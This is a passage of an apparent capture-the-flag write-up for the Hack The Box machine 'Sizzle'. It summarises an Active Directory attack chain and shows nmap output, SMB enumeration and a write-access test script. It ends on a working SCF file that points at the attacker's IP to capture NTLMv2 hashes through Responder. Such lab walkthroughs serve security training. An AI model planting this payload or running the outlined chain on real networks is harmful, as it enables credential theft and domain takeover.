










### Summary
- A Windows Domain Controller machine. We find an SMB share containing a writable folder called 'Public'. We place an `SCF` file there that directs the visiting user's computer to our listening responder where we capture his `NTLMv2` hash.
- After cracking it, we get the password for the `amanda` user which we use to enumerate the domain using `BloodHound`.
- Noticing that our user has PowerShell Remoting capabilities, we try to get access but are faced with a strange error.
- Upon inspecting the functionality of the `Evil-Winrm` tool, we find that we can use a certificate for logging in.
- We create a Certificate Signing Request using `openssl` and get it signed from the ADCS web interface found on the domain controller.
- We successfully achieve code execution using PowerShell Remoting but find ourselves in Contrained Language Mode which disables some functionalities.
- Looking back at the output of `BloodHound`, it did show a kerberoastable user called `mrlky` that has dangerous rights that could be abuse to do a `DCSync` attack.
- We bypass the Contrained Language Mode by downgrading to PowerShell Version 2 and are able to kerberoast after using the `-credential` switch to create a network logon.
- After kerberoasting the `mrlky` user, we crack his TGS hash and are able to get the password. We then proceed to `DCSync` and obtain the NTLM hash for the `administrator` account which we pass to gain complete access.

---

### Nmap
The nmap output shows us some good information:
- Machine name: Sizzle
- Domain Name: HTB.local
- FTP with anonymous login allowed
- IIS 10.0 on port 80 which indicates server 2016+ or windows 10
- SMB on port 445
- LDAP and GC on ports 389 and 3268
- WinRM on 5985/5986 which is always nice to have

```
PORT      STATE SERVICE       VERSION
21/tcp    open  ftp           Microsoft ftpd
| ftp-syst: 
|_  SYST: Windows_NT
|_ftp-anon: Anonymous FTP login allowed (FTP code 230)
53/tcp    open  domain        Simple DNS Plus
80/tcp    open  http          Microsoft IIS httpd 10.0
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
|_ssl-date: 2022-04-30T19:56:16+00:00; -1s from scanner time.
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
443/tcp   open  ssl/http      Microsoft IIS httpd 10.0
|_ssl-date: 2022-04-30T19:56:16+00:00; 0s from scanner time.
|_http-server-header: Microsoft-IIS/10.0
|_http-title: Site doesn't have a title (text/html).
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
| http-methods: 
|_  Potentially risky methods: TRACE
| tls-alpn: 
|   h2
|_  http/1.1
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2022-04-30T19:56:16+00:00; 0s from scanner time.
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2022-04-30T19:56:16+00:00; 0s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: HTB.LOCAL, Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=sizzle.htb.local
| Not valid before: 2018-07-03T17:58:55
|_Not valid after:  2020-07-02T17:58:55
|_ssl-date: 2022-04-30T19:56:16+00:00; 0s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
5986/tcp  open  ssl/http      Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
| ssl-cert: Subject: commonName=sizzle.HTB.LOCAL
| Subject Alternative Name: othername:<unsupported>, DNS:sizzle.HTB.LOCAL
| Not valid before: 2018-07-02T20:26:23
|_Not valid after:  2019-07-02T20:26:23
|_http-server-header: Microsoft-HTTPAPI/2.0
| tls-alpn: 
|   h2
|_  http/1.1
|_ssl-date: 2022-04-30T19:56:16+00:00; -1s from scanner time.
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
47001/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         Microsoft Windows RPC
49665/tcp open  msrpc         Microsoft Windows RPC
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49677/tcp open  msrpc         Microsoft Windows RPC
49686/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49688/tcp open  msrpc         Microsoft Windows RPC
49689/tcp open  msrpc         Microsoft Windows RPC
49692/tcp open  msrpc         Microsoft Windows RPC
49698/tcp open  msrpc         Microsoft Windows RPC
49707/tcp open  msrpc         Microsoft Windows RPC
49713/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: SIZZLE; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2022-04-30T19:55:42
|_  start_date: 2022-04-30T19:49:45
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
```

### Anonymous FTP
We notice the FTP port with anonymous login enabled.
No files are there, and we're not granted write access either. So we move on.



### HTTP/HTTPs
The home page just shows a GIF of bacon sizzling.



Spidering with gobuster shows an interesting directory `/certsrv` which indicates that the ADCS role is installed on this server.



the HTTPS website is similar in structure. so we move along.

### LDAP
The output of ldapsearch didn't show much information. 



I grepped out some unnecessary lines from the output to make it smaller.

### SMB
Enumerating SMB with crackmapexec reveals that we have read access to the `Department Shares` folder.



After mounting it, we notice a couple of folders:



the `Users` folder contained some usernames which save in a list for later use:



We find some files in the `ZZ_ARCHIVE` folder but they dont have any content:



we loop over the files use the `file` command and grepping out any empty hex line with `xxd` to find nothing there as well.



Since we're nearing a dead end with our enumeration, we're going to use a simple bash script to check from write access in the SMB shares.

```
#!/bin/bash
list=$(find /mnt -type d)
for d in $list
do
        touch $d/just-a-test-dir 2>/dev/null
        if [ $? -eq 0 ]
        then
                echo -e "\e[32m[+] $d is writable\e[0m"
                rm $d/just-a-test-dir
        else
                echo -e "\e[31m[-] $d is not writable\e[0m"
        fi
done
```
it does a `find` on the mount point with the `-type d` flag to get only directories and attempts to create a file in each one using `touch`. It prints out if the folder is writable or not and clears the test file if the folder is writable.



The results show that we have `write` access in both the `Public` and `ZZ_ARCHIVE` folders.

Having this access would allow us to plant a malicious type of file that would enable us to steal NTLMv2 hashes from users who access these locations.

### SCF File Attacks to Steal Hashes
SCF (Shell Command Files) are files that can perform some actions in Windows explorer. One functionality of them can be abused to have the share-visiting user directed to our kali machine. This can be done using a file with the below content:

```
[Shell]
Command=2
IconFile=\\10.10.16.7\share\pwn.ico
[Taskbar]
Command=ToggleDesktop
```

This tells file explorer to fetch the icon for the `.scf` file from a network share (which is our kali box in this case).

We're going to fire up `responder` making sure the `Responder.conf` file has the `SMB` server set to `ON`.

And then copy the `.scf` file to `\\10.10.10.103\Department Shares\Users\Public` as well as the `ZZ_ARCHIVE` folders to make sure any visitor gives us his/her hash.

